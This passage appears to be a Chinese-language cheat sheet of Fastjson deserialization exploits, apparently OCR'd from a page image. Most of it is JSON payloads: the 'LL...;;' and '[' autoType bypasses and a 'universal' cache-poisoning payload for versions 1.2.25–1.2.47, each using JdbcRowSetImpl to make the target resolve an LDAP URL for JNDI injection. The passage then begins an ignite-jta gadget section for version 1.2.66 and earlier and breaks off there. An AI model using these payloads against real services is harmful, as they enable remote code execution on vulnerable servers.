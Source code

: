     payload示例：(其他的和1.2.24都相同)
    
    ```java
    {
        "@type": "LLcom.sun.rowset.JdbcRowSetImpl;;",
        "dataSourceName": "ldap://localhost:1389/badNameClass",
        "autoCommit": true
    }
    ```
    

## Fastjson 1.2.25 - 1.2.43

1.2.43扳了`LL...;; Bypass`

1. `[ Bypass`
    
    payload示例：(其他的和1.2.24都相同)
    
    ```java
    {
        "@type": "[com.sun.rowset.JdbcRowSetImpl"[{,
        "dataSourceName": "ldap://localhost:1389/badNameClass",
        "autoCommit": true
    }
    //其中[{ 是一种技巧，原payload可不加
    ```
    

## Fastjson 1.2.25 - 1.2.47 (通用通杀)

1. 缓存投毒
    
    payload示例：(其他的和1.2.24都相同)
    
    ```java
    {
        "a": {
            "@type": "java.lang.Class",
            "val": "com.sun.rowset.JdbcRowSetImpl"
        },
        "b": {
            "@type": "com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName": "ldap://localhost:1389/badNameClass",
            "autoCommit": true
        }
    }
    ```
    

## Fastjson <= 1.2.66 (需开启`autoType`)

1. JNDI注入 (ignite-jta)
    
    需要`ignite-core`, `ignite-jta`, `jta`库
    